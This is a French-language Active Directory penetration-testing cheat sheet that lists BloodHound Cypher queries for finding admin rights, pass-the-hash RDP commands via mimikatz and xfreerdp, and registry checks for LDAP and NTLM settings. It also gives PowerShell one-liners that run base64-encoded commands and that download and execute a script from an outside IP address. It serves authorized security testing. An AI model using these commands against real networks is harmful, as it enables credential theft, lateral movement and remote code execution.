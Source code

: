 ```yaml
---
title: Cheat Sheet Active Directory
permalink: /CheatSheet_AD/
---
```


# Cheat Sheet Active Directory

Liste de commandes utiles en pentest Active Directory. Commandes Windows & Linux.

## Cypher Queries

Requêtes Cypher qui peuvent être utiles:

``` 
# Liste de tous les utilisateurs avec des droits d'admins locaux (direct ou via un groupe)
MATCH p=(u:User)-[r:AdminTo|MemberOf*1..]->(c:Computer) RETURN p

# Juste les groupes
MATCH p=(g:Group)-[r:AdminTo|MemberOf*1..]->(c:Computer) RETURN p

# Admin direct (sans groupe)
MATCH p=(u:User)-[r:AdminTo]->(c:Computer) RETURN p
```

## Remote Desktop Protocol

Pour faire un pass the hash avec RDP sous Windows (via mimikatz)

``` 
sekurlsa::pth /user:user /domain:domain.local /ntlm:xxxxxxxxxxxxxxx /run:"mstsc.exe /restrictedadmin"
```

Sous Linux
``` bash
xfreerdp /u:USER /d:DOMAIN /pth:NTLM /v:server.domain.local
```

## Configuration Active Directory

Récupérer des informations de configuration (accès local nécessaire):

``` powershell
# LDAP Signing
Get-ItemProperty -Path HKLM:\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters -Name LDAPServerIntegrity
# LDAP Channel Binding
Get-ItemProperty -Path HKLM:\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters -Name LdapEnforceChannelBinding
# Protocoles autorisés pour échanges NTLM
Get-ItemProperty -Path HKLM:\\System\\CurrentControlSet\\Control\\Lsa -Name LmCompatibilityLevel
```

## Powershell

``` powershell
# Convertit une chaine en base64
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("net user"))

# Exécute une commande à partir d'une chaîne base64
powershell -e bgBlAHQAIAB1AHMAZQByAA==

# Télécharger et exécuter un fichier
iex (new-object net.webclient).downloadstring('http://10.133.151.246:8080/PowerUp.ps1')
iex (new-object net.webclient).downloadstring('file:///C:\\Tools\\Powersploit\\Powersploit.psd1')
```
